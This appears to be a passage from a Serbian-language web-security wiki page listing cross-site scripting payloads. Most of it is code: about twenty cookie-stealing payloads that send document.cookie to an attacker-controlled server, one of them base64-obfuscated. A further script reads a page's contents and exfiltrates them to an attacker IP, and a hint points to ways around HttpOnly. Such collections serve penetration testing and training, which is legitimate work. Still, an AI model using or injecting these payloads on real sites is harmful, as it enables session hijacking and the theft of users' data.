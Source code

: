 ```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```

## XSS uobičajeni payloadi

### Više payloada u 1

{% content-ref url="steal-info-js.md" %}
[steal-info-js.md](steal-info-js.md)
{% endcontent-ref %}

### Preuzimanje kolačića

```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```

{% hint style="info" %}
Nećete moći da pristupite kolačićima iz JavaScript-a ako je postavljena zastava HTTPOnly u kolačiću. Ali ovde imate [neke načine za zaobilaženje ove zaštite](../hacking-with-cookies/#httponly) ako imate dovoljno sreće.
{% endhint %}

### Ukradi sadržaj stranice

```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
```
